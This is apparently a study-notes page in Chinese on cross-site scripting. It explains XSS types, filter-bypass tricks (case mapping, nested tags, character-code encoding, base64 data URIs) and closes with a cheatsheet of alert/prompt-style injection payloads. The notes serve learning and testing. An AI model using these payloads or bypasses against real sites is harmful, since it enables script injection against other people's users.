 # Cross-Site Scripting  
[同源策略](https://github.com/shinmao/Web-Security-Learning/blob/master/XSS/Same-Origin%20Policy.md)    
1. reflected xss (非持久型):    
  
2. stored xss (持久型):  
Forum或者留言板中, 在文本中加入script. (前端可能用ajax讀取內容  
  
3. DOM xss: 最近の流行り  

注意: reflective型 以及 stored型 才會與server有互動，因為server需要解析惡意代碼，而DOM型則是完全由客戶端js執行。  
  
*  [XSS detection](#xss-detection)  
*  [常見限制 and 對抗手勢](#常見限制-and-對抗手勢)  
*  [正規表達式](#正規表達式)  
*  [攻擊手勢](#攻擊手勢)  
*  [Cheatsheet](#cheatsheet)    
*  [Reference](#reference)

# XSS detection
這裡先不談XSS探針...  
我習慣直接注入sciprt語句作測試，常見語句如下:  
```js
<script>alert(/1/);<script>
<a href=1 onload=alert(1)>hi</a>
```
在這裏個人認為較重要的是分析注入點對網頁產生的影響，我注入的惡意代碼沒有作用可能有兩種原因：  
1. 網頁不存在可利用的xss漏洞，可能注入點直接將值插入網頁作為內容  
2. 惡意代碼被過濾掉，或者轉譯了 -> 這種情況下就要分析有沒有代替字元來繞過過濾名單，或者繞過轉譯！

# 常見限制 and 對抗手勢
* 大小寫混用  
* toUpperCase()  
```js
İ (%c4%b0).toLowerCase() => i
ı (%c4%b1).toUpperCase() => I
ſ (%c5%bf) .toUpperCase() => S
K (%E2%84%AA).toLowerCase() => k
```
* 一次過濾繞過  
```php
str_replace('<script>','',$GET['hi'])  //這裏代表hi中的<script>會變空字串
// <scr<script>ipt> 
```  
* 使用正規表達式高效率的過濾  
```php
preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET['hi'])   // 大寫小寫一次繞過全都會被擋掉
// <img src=1 onerror=alert(1)>
```
* encode 轉譯危險標籤  
  * url encode: `% + ASCII(hex) %3Cscript%3E`  
  * http://www.jsfuck.com/  
  補充js常見處理函式: `escape()/unescape()`, `encodeURL()/decodeURL()`, `encodeURLComponent()/decodeURLComponent()`  
  * html encode
  ```php
  htmlspecialchars($_GET['hi']);  // 會將特殊字元通通轉譯掉 
  // 這種情況下將無法再進行注入
  ```  
  * unicode encode: %u + ASCII(hex)  
  * ascii encode
  ```js
  eval(String.fromCharCode(97,108,101,114,116,40,49,41))
  // <script>alert(1)</script>
  ```
  [Encode_tool](http://monyer.com/demo/monyerjs/)  
  String.fromCharCode() 將unicode字碼轉換成字串 [Manual](https://www.w3schools.com/jsref/jsref_fromCharCode.asp)  
  eval() 執行參數中的js語句 [Manual](https://www.w3schools.com/jsref/jsref_eval.asp)  
* length limit  
  * 外部引入自己的script `<script src=".js"></script>`  
* 未過濾`\n`類符號  
```js
<img src="javas
cript:
alert(/1/);">
```

# 正規表達式
js中會用正規表達式來過濾危險字符  
```js
/g -> 全局匹配
/i -> case insensitive
```
參考如下文件：  
[Documentation](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Guide/Regular_Expressions#.E9.80.9A.E8.BF.87.E5.8F.82.E6.95.B0.E8.BF.9B.E8.A1.8C.E9.AB.98.E7.BA.A7.E6.90.9C.E7.B4.A2)

# 攻擊手勢  
* script  
```js
<script>a=prompt;a(1)</script>
```
* img  
```js
<img src=1 onmouseover=alert(1)>
<img src=1 onerror=confirm(1)>
<img src="javascript:alert(1);">
```
* svg  
```js
<svg/onload=alert(1)>
```
* body  
```js
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29’;>   
// 這種payload也可以繞過括號過濾
```

# Cheatsheet
```php
</script>"><script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>         // 協議解析
</script>"><script>prompt(1)</script>
</ScRiPt>"><ScRiPt>prompt(1)</ScRiPt>
"><script>al\u0065rt(document.domain)</script>
"><script>al\u{65}rt(document.domain)</script>
"><img src=x onerror=prompt(1)>
"><svg/onload=prompt(1)>
"><iframe/src=javascript:prompt(1)>
"><h1 onclick=prompt(1)>Clickme</h1>
"><a href=javascript:prompt(1)>Clickme</a>
"><a href="javascript:confirm%28 1%29">Clickme</a>
"><a href="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+">click</a>
"><textarea autofocus onfocus=prompt(1)>
"><a/href=javascript&colon;co\u006efir\u006d&#40;&quot;1&quot;&#41;>clickme</a>
"><script>co\u006efir\u006d`1`</script>
"><ScRiPt>co\u006efir\u006d`1`</ScRiPt>
"><img src=x onerror=co\u006efir\u006d`1`>
"><svg/onload=co\u006efir\u006d`1`>
"><iframe/src=javascript:co\u006efir\u006d%28 1%29>
"><h1 onclick=co\u006efir\u006d(1)>Clickme</h1>
"><a href=javascript:prompt%28 1%29>Clickme</a>
"><a href="javascript:co\u006efir\u006d%28 1%29">Clickme</a>
"><textarea autofocus onfocus=co\u006efir\u006d(1)>
"><details/ontoggle=co\u006efir\u006d`1`>clickmeonchrome
"><p/id=1%0Aonmousemove%0A=%0Aconfirm`1`>hoveme
"><img/src=x%0Aonerror=prompt`1`>
"><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;">
"><h1/ondrag=co\u006efir\u006d`1`)>DragMe</h1>
```
上面的cheatsheet除了有brutexss原有的payload還有一些自己蒐集的!  
[Brute XSS payload by Pgaijin66](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt)  

# Reference
1. The Web Application Hacker's Handbook  
2. [看雪](https://www.kanxue.com)  
3. [烏雲](http://wps2015.org/drops/drops/Bypass%20xss%E8%BF%87%E6%BB%A4%E7%9A%84%E6%B5%8B%E8%AF%95%E6%96%B9%E6%B3%95.html)  
4. [云淡风轻](http://blog.idhyt.com/2014/10/15/technic-xss-bypass/)  
5. [freebuf](http://www.freebuf.com/articles/web/153055.html)  
6. [BruteXSS](https://github.com/shawarkhanethicalhacker/BruteXSS)  
7. [PayloadAllTheThings by swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection)  
